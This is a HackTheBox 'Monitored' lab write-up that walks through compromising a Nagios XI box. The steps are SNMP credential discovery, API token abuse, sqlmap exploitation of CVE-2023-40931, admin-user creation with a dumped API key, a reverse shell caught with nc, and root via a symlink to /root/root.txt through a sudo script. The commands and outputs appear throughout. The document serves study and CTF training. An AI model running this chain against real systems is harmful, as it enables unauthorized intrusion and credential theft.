








# Monitored - Medium

Target IP: **10.129.230.96**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.230.96 -v```

Output shows standard port 22 for ssh, port 80 and 443 running Nagios XI hosted on Apache 2.4.56, and port 389 running OpenLDAP 2.2.X - 2.3.X.

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp  open  http     Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56 ((Debian))
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.56 (Debian)
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Issuer: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-11-11T21:46:55
| Not valid after:  2297-08-25T21:46:55
| MD5:   b36a:5560:7a5f:047d:9838:6450:4d67:cfe0
|_SHA-1: 6109:3844:8c36:b08b:0ae8:a132:971c:8e89:cfac:2b5b
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two UDP ports open as well.

```
PORT      STATE         SERVICE      VERSION
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   open          ntp          NTP v4 (unsynchronized)
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open          snmp         SNMPv1 server; net-snmp SNMPv3 server (public)
162/udp   open          snmp         net-snmp; net-snmp SNMPv3 server
445/udp   open|filtered microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  closed        upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
Service Info: Host: monitored
```

Port 80 redirects us to ```nagios.monitored.htb```, so let's add it to our ```/etc/hosts``` file and navigate to it.

We are greeted with the home page of Nagios XI.



Let's try logging in with the default credentials of Nagios XI, ```nagiosadmin:nagiosadmin```.

It doesn't work.

Additional directory enumeration doesn't yield any useful information as well. I feel like we should pivot to SNMP.

Let's enumerate: ```snmpwalk -v 1 -c public 10.129.230.96```

Inside the output, there is a set of credentials.

```
iso.3.6.1.2.1.25.4.2.1.5.1390 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
```

Let's see if this works on the Nagios log in page.

It doesn't work but we get a different error, suggesting that the account exists but has been disabled.



I want to see if we can use the API to log in with these credentials. A Google search reveals that we can request a temporary token via API authentication by sending a POST request to the ```http://<YOUR_NAGIOS_XI_IP>/nagiosxi/api/v1/authenticate?pretty=1``` endpoint.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-xaqgjyqnon]─[~]
└──╼ [★]$ curl -k -X POST "https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1" \
     -d "username=svc" \
     -d "password=XjH7VCehowpR1xZB" \
     -d "valid_min=60"
{
    "username": "svc",
    "user_id": "2",
    "auth_token": "d2bf3fd2c0f0d478fc76cd677b8e7bd5cbb770c5",
    "valid_min": 60,
    "valid_until": "Thu, 24 Sep 2026 16:41:41 -0400"
}
```

We get an authentication token back.

After using the token to authentication to the log in form, we get access.

```https://nagios.monitored.htb/nagiosxi/login.php?token=d2bf3fd2c0f0d478fc76cd677b8e7bd5cbb770c5```



One thing I noticed right away was that we can now see the version of Nagios XI being used, which is 5.11.0. Let's look for publicly disclosed vulnerabilities.

A search reveals that this version is vulnerable to CVE-2023-40931, a SQLi vulnerability. This exists at the ```/nagiosxi/admin/banner_message-ajaxhelper.php``` endpoint because the ```id``` parameter in the POST request is handled improperly.

I followed a guide to craft this payload, and after sending it, we get an SQL error returned back to us, which indicates SQLi.

.

Let's put this into sqlmap.

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=1" --cookie="nagiosxi=djem9b4gem326fpkradcpgee2u" -p id --batch --dbs
```

It finds two databases for us.

```
available databases [2]:
[*] information_schema
[*] nagiosxi
```

Let's look at the ```nagiosxi``` database.

```
Database: nagiosxi
[22 tables]
+-----------------------------+
| xi_auditlog                 |
| xi_auth_tokens              |
| xi_banner_messages          |
| xi_cmp_ccm_backups          |
| xi_cmp_favorites            |
| xi_cmp_nagiosbpi_backups    |
| xi_cmp_scheduledreports_log |
| xi_cmp_trapdata             |
| xi_cmp_trapdata_log         |
| xi_commands                 |
| xi_deploy_agents            |
| xi_deploy_jobs              |
| xi_eventqueue               |
| xi_events                   |
| xi_link_users_messages      |
| xi_meta                     |
| xi_mibs                     |
| xi_options                  |
| xi_sessions                 |
| xi_sysstat                  |
| xi_usermeta                 |
| xi_users                    |
+-----------------------------+
```

```xi_auth_tokens```, ```xi_sessions```, and ```xi_users``` seem the most interesting.

We get a hit in ```xi_users```.

```
Database: nagiosxi
Table: xi_users
[2 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 1790265749   | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 1              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1790267620   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 4              | 1699697433           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
```

We could try cracking the password, but we can also take the api key of the admin account and get information with it.

Supplying the admin api key in the url, we can view information.



With this api key, we can create a new admin user.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-xaqgjyqnon]─[~]
└──╼ [★]$ curl -k -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL" -d "username=44yyyy&password=password&name=44yyyy&email=44yyyy@monitored.htb&auth_level=admin"
{"success":"User account 44yyyy was added successfully!","user_id":6}
```

Let's log in with our new admin user.



Our goal now is to make Nagios XI run a script so that we can catch a shell back.

We can do this by going to Configure -> Core Config Manager -> Commands -> Add New.

We can put our reverse shell code here.



Our command exists, but nothing is running it. To run it, we can navigate to Hosts -> Add New, choose our new command and press "Run Check Command."



After we run the command, we get a shell.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-xaqgjyqnon]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.230.96 53126
bash: cannot set terminal process group (24764): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ whoami
whoami
nagios
```

We can proceed to get the user flag from here.

## Root Flag

There is a lot we can run as ```root```.

```
nagios@monitored:~$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

The binaries in ```/etc/init.d``` don't exist. There's something interesting in ```getprofile.sh```

```
echo "Getting phpmailer.log..."
if [ -f /usr/local/nagiosxi/tmp/phpmailer.log ]; then
    tail -100 /usr/local/nagiosxi/tmp/phpmailer.log > "/usr/local/nagiosxi/var/components/profile/$folder/phpmailer.log"
fi
```

In the script, if ```/usr/local/nagiosxi/tmp/phpmailer.log``` exists, then it reads the last 100 lines of it and writes it into ```/usr/local/nagiosxi/var/components/profile/$folder/phpmailer.log```.

We also have write access over ```/usr/local/nagiosxi/tmp```.

```
nagios@monitored:~$ ls -la /usr/local/nagiosxi/
total 40
drwxr-xr-x 10 root     nagios 4096 Nov  9  2023 .
drwxr-xr-x 15 root     root   4096 Nov  9  2023 ..
drwxr-xr-x  2 root     nagios 4096 Nov  9  2023 cron
drwxr-xr-x  4 root     nagios 4096 Nov  9  2023 etc
drwxr-xr-x 19 root     nagios 4096 Nov  9  2023 html
drwxr-xr-x  3 root     nagios 4096 Nov  9  2023 nom
drwxr-xr-x  7 root     nagios 4096 Nov  9  2023 scripts
drwsrwsr-x  3 www-data nagios 4096 Dec  1  2023 tmp
drwxr-xr-x  2 root     nagios 4096 Nov  9  2023 tools
drwxrwxr-x  7 nagios   nagios 4096 Sep 24 16:35 var
```

We can create a fake ```phpmailer.log``` file as a symlink that points to the root flag and have the script write it out for us.

```
nagios@monitored:/usr/local/nagiosxi/tmp$ ln -s /root/root.txt phpmailer.log
nagios@monitored:/usr/local/nagiosxi/tmp$ ls -la
total 12
drwsrwsr-x  3 www-data nagios 4096 Sep 24 17:17 .
drwxr-xr-x 10 root     nagios 4096 Nov  9  2023 ..
drwxr-sr-x  2 root     nagios 4096 Nov 10  2023 migrate
lrwxrwxrwx  1 nagios   nagios   14 Sep 24 17:17 phpmailer.log -> /root/root.txt
```

We can now run the script with sudo: ```nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/components/getprofile.sh 1```

Navigate to the directory and unzip the ```.zip`` archive for the profile.

```
nagios@monitored:/usr/local/nagiosxi/var/components$ ls -la
total 432
drwsrwsr-x 3 www-data nagios   4096 Sep 24 17:19 .
drwxrwxr-x 7 nagios   nagios   4096 Sep 24 16:35 ..
-rw-rw-r-- 1 www-data nagios 292371 Sep 24 16:38 auditlog.log
-rw-rw-r-- 1 www-data nagios      0 Nov  9  2023 capacityplanning.log
drwxr-sr-x 2 root     nagios   4096 Sep 24 17:19 profile
-rw-r--r-- 1 root     nagios 127376 Sep 24 17:19 profile.zip
nagios@monitored:/usr/local/nagiosxi/var/components$ unzip profile.zip
```

And get the root flag.

```
nagios@monitored:/usr/local/nagiosxi/var/components/profile-1790284763$ cat phpmailer.log 
************************
```

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
